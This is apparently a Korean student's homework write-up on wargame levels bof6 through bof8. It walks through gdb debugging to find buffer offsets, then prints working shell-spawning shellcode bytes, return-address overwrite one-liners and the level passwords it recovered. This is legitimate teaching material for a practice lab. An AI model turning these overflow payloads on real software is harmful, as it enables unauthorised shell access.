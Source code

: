 # HW-7
## bof6
먼저 `bat bof6.c`로 파일을 확인한다.

![71](71.PNG)

코드에 system 함수가 없으므로 쉘을 열 수 없다. 따라서 쉘코드를 넣어줘야 한다.

처음엔 쉘코드를 어디에 넣어줘야 하는지 몰라서 당황했다. 

그 다음 힌트의 힘을 빌려서 이런 경우에는 buf에 먼저 쉘코드를 적고, 나머지 buf를 채운다음 그 다음 buf의 주소를 적으면, return address 가 buf가 되어, 쉘이 열리게 된다는 것을 알 수 있었다.

이제, `gdb bof6`로 buf와 return address의 거리를 알아본다.

return address의 주소는 'vuln 함수'를 실행할 때의 'rsp'이다. 

![72](72.PNG) 

즉, return address의 주소는 *0x00007fffffffe488* 이다.

buf의 주소는 'strcpy 함수'의 첫 번째 인자를 보면 알 수 있다. 하지만, gdb로 실행을 하면 'strcpy 함수'로 가지 않는다. 그래서 또 당황을 했다...

그 다음 누군가의 힘을 빌려서 zero flag를 바꿈으로 'strcpy 함수'로 갈 수 있었다.

![73](73.PNG)

test가 걸릴 때마다 `set $eflags |= (1 << 6 )`를 해주었다.

![74](74.PNG)

여기서 buf의 주소는 'rdi'이다. 즉, *0x00007fffffffe400* 이다.

둘 사이의 거리는 **136** 이다.

![75](75.PNG)

이때, 쉘코드는 27바이트이기 때문에 먼저 쉘코드로 채워주고 109만큼 또 채워주면 된다. 

그래서 
```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xb0\xe4\xff\xff\xff\x7f'"`
```
라고 했더니, 오류가 나오며 buf의 주소가 나왔다. 
> 이게 gdb를 실행해서 본 buf 주소와, 인자의 값의 길이에 따라 출력되는 buf 주소가 다르다. 이유는 잘 모르겠다.

그래서 이번에 출력된 주소로 바꿔서 입력하면
```
./bof7 `python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'+'x'*109+'\xc0\xe3\xff\xff\xff\x7f'"`
```
이다. 그러면 쉘이 열리고 비밀번호가 **04ccd53d** 라는 것을 알 수 있다.

---

먼저 `bat bof8.c`로 파일을 확인한다.

![76](76.PNG)

~~힌트와 누군가의 힘을 빌려...~~

'getenv 함수'에서 환경 변수인 "SELLCODE"를 쉘코드로 넣어줘야 한다.
```
export SHELLCODE=`python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'"`
```

이후 `gdb bof8`를 통해 buf와 return address 거리를 알아본다.

![77](77.PNG)

return address의 주소는 'vuln 함수'를 실행할 때의 'rsp'이다. 즉, return address의 주소는 *0x00007fffffffe4a8* 이다.

이후 'test 함수'에서 bof7처럼 zero flag를 바꿔줌으로써 'gets 함수'로 간다.

![78](78.PNG)

여기서 buf의 주소는 'rdi'이다. 즉, *0x00007fffffffe498* 이다.

둘 사이의 거리는 **16** 이다.

![79](79.PNG)

이때, bof8을 실행하면 쉘코드의 주소가 나오는데, 이를 넣으면 오류가 떴다.
> 그 이후에 나오는 쉘코드의 주소는 또 다르다. 이유는 잘 모르겠다..

이후 새로 나오는 주소로 넣으면
```
(python -c "print 'x'*16+'\x0f\xe8\xff\xff\xff\x7f'";cat) | ./bof8
```

쉘이 열리면서 비밀번호가 **e0caa67f** 라는 것을 알 수 있다.